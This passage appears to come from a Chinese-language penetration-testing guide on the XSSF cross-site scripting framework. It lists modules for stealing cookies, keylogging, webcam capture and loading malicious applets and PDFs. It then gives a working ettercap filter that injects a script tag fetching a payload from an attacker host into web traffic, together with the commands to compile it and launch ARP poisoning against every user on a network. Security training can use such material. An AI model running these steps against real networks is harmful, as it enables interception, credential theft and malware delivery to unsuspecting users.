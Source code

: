 `run`命令的执行如下图所示：

![The Cross-Site Scripting Framework](img/3121OS_11_13.jpg)

当攻击完成后，可以通过查看 XSSF 日志页面上的结果或使用命令直接从命令行找到 cookie，如以下屏幕截图所示：

![The Cross-Site Scripting Framework](img/3121OS_11_14.jpg)

`auxiliary/xssf/public/misc`中的一些其他有用命令包括：

*   `check_connected`：此命令检查受害者是否打开了任何社交网站（Gmail、Facebook 或 Twitter）
*   `csrf`：发起跨站点请求伪造攻击
*   `keylogger`：此命令调用客户端的键盘记录器
*   `load_applet`和`load_pdf`：这些命令在客户端加载恶意 Java 小程序和 PDF 文件，并调用它们来启动预配置的恶意软件
*   `redirect`：它将客户端重定向到指定的网页
*   `webcam_capture`：此命令从客户端的网络摄像头捕获图像

这是一个不完整的列表，但它显示了该工具的开发程度。此外，还有一些模块用于网络扫描和发起拒绝服务攻击，还有一些模块用于确保攻击完成后的持久性。

XSSF 还可以与 ettercap 一起使用，以破坏内部网络。例如，通过在名为`attack`的过滤器中放置以下代码，可以使用 TTERCAP 将`</head>`数据替换为指向恶意页面的链接：

```
if (ip.proto == TCP && tcp.src == 80) {
  if (search(DATA.data, "</head>")) {
    replace("</head>", "</head><script src=\"http://192.168.43.130:8888/test.html\"></script> ");
  }
}
```

然后，必须使用以下命令将筛选器脚本转换为二进制文件：

```
 etterfilter attack.filter –o attack.ef

```

要对网络上的所有用户发起此攻击，请使用以下命令执行`ettercap`：

```
 ettercap –T –q –F attack.ef –M ARP // //

```
